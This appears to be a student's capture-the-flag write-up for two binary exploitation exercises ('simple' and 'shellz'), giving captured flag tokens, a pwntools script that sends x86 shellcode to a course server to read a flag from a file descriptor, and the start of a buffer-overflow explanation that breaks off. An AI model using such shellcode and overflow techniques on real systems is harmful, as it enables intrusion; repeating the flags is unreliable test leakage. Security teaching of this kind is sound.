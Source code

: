 ==================================================================
simple
==================================================================
Flag: FLAG{eyJhbGciOiJIUzI1NiJ9.eyJjaGFsIjoid2FyMy1zaW1wbGUiLCJpcCI6IjEwMS4xNjQuMzMuMjE5Iiwic2Vzc2lvbiI6ImMxMmY5NWJmLTdjZTYtNDVjYS05OTE2LTc3MDRjNmUzYTEyZCJ9.GUiTuOHNO9HRJmiDq7E0pl5Bc3v4KeBZFVs8XaL0yv4}
------------------------------------------------------------------
General overview
1. The first exercise as usual was pretty simple, all I needed to do was was read enough bytes from fd 1000 to capture the entire flag, then write those bytes to stdout. This was essentially just the third lab exercise.
------------------------------------------------------------------
Program used

	#!/usr/bin/python

	from pwn import *

	p = remote("plsdonthaq.me", 3001)
	# p = process("./simple")

	p.recvuntil("shellcode:")

	payload = asm("""

	    mov eax, 0x3
	    mov ebx, 0x3e8
	    mov ecx, esp
	    mov edx, 0x3e8

	    int 0x80

	    mov edx, eax
	    mov eax, 0x4
	    mov ebx, 0x1
	    mov ecx, esp

	    int 0x80

	    """)

	p.sendline(payload)

	p.interactive()

==================================================================



==================================================================
shellz
==================================================================
Flag: FLAG{eyJhbGciOiJIUzI1NiJ9.eyJjaGFsIjoid2FyMy1zaGVsbHoiLCJpcCI6IjEwMS4xNjQuMzMuMjE5Iiwic2Vzc2lvbiI6IjZmNTZhOTQzLTgyNDMtNDZlNC1iZWNkLWJlMTJlYmY2ODczYyJ9.f8_kl6w1ffVguqxeIfRq9YdeKDuV57Ymuulb4BEHypI}
------------------------------------------------------------------
General overview
This exercise was a bit more difficult than the previous, but not terribly. I took it in three stages
	1.I first found out how many bytes I needed to write (how many nops) in order to overflow the return address (luckily binary-ninja helpfully told me exactly what this offset was)
